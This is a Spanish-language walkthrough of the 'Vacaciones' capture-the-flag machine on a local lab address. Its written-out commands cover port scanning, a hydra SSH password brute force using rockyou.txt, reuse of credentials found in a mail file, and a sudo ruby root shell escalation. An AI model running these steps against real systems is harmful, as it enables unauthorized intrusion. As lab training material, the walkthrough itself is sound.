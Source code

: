 Maquina: Vacaciones

Autor: Romabri

Dificultad: Muy Facil

ping 172.17.0.2 -c 1

![Screenshot 2024-11-08 190145](https://github.com/user-attachments/assets/19f5d6e5-e987-4be9-b8bb-7a39fd4d2fed)

sudo nmap -p- --open -sT --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts

![Screenshot 2024-11-08 190641](https://github.com/user-attachments/assets/391e44bf-ebf5-4b96-850f-37ec520bb040)

sudo nmap -sCV -p22,80 172.17.0.2 -oN targeted

![Screenshot 2024-11-08 190513](https://github.com/user-attachments/assets/2f080d1c-4f14-4eaf-a95c-80116a1518f5)

miramos la web
https://172.17.0.2

![Screenshot 2024-11-08 191601](https://github.com/user-attachments/assets/c758f9f6-f4f3-4ca3-b64e-564f343916a0)

miramos el codigo fuente y obtenemos 2 usuarios que podemos explotar

![Screenshot 2024-11-08 191624](https://github.com/user-attachments/assets/a14a09ef-e3c6-4ca8-b206-3177be5bffee)

sudo hydra -l camilo -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2 -t 10
obtenemos password de camilo

![Screenshot 2024-11-08 190858](https://github.com/user-attachments/assets/fb4bd662-89c2-4751-b35a-439cdce62a01)

ssh camilo@172.17.0.2

![Screenshot 2024-11-08 190958](https://github.com/user-attachments/assets/6730071b-f16b-4e3a-afca-2118360a0929)

sudo -l
vemos que camilo no tiene permisos

![Screenshot 2024-11-08 191131](https://github.com/user-attachments/assets/ec62cdd9-11e7-422a-a680-ec3605ca9c83)

buscamos el correo que nos ponia en la web
/var/mail$ cd camilo
ls
cat correo.txt

y descubrimos las credenciales del otro usuario

![Screenshot 2024-11-08 191144](https://github.com/user-attachments/assets/003190ed-4b69-4afb-afb9-14a6d74b2935)

accedemos a juan por ssh
ssh juan@172.17.0.2

![Screenshot 2024-11-08 191218](https://github.com/user-attachments/assets/79bffcdd-c74f-4a83-9a3e-fa67dd5f328f)

sudo -l
descubrimos que podemos ejecutar ruby como usuario root
sudo /usr/bin/ruby -e 'exec "/bin/bash"'
whoami

![Screenshot 2024-11-08 191256](https://github.com/user-attachments/assets/7ad92b01-02fd-40d0-8f7b-1e405099b78f)
